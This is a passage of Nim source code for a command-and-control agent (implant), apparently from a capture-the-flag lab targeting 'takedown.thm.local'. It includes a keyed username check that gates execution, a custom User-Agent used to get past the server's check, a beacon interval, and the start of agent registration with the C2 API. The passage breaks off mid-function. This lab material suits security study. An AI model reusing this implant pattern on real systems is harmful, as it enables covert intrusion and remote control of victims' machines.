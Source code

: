 

const lowerCaseAscii = 97..122
const sleep_interval = 10000
const keyed_username = "c.oberst"
const api_server = "http://takedown.thm.local/"

# WEBSERVER vars
# const keyed_username = "webadmin-lowpriv"
# const api_server = "http://localhost:8888/"



# Argparse. Oh hey, there's a -v for ver mode! That's handy
var p = newParser:
    help("\U0001f602\U0001f40d\U0001f680\U0001f680\U0001f92b\U0001f387\U0001f387\U0001f386\U0001f64f\U0001f525\u2764\ufe0f\u200d\U0001f525\U0001f496\U0001f4af\U0001f44b\U0001f44b\U0001f44b\U0001f4af\u2764\ufe0f\u200d\U0001f525\U0001f496\U0001f525\U0001f525\U0001f525\u2764\ufe0f\u200d\U0001f525\U0001f92b\U0001f387\U0001f387\U0001f386\U0001f386\U0001f680\U0001f346")
    flag("-v", "--ver", help="")

var uid: string = ""

proc rand_str: string =
    4.newSeqWith(lowerCaseAscii.rand.char).join & "-" & 4.newSeqWith(lowerCaseAscii.rand.char).join & "-" & 4.newSeqWith(lowerCaseAscii.rand.char).join & "-" & 4.newSeqWith(lowerCaseAscii.rand.char).join    


# Server says: if the host headers do not contain [values], no soup for you! So let's include those pre-set values
const keyed_header = "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5"

# Check if the username of the user  is a specified value. If it is, run the agent. If not, nothing.
proc wake_up(key: string): bool =
    var res = strip(whoami())
    return key in res

# Initial check in and registration with server
proc initial_check_in(hostname: string): string =    
    # Create agent unique ID and POST to /api/agents/
    var uid = rand_str()
    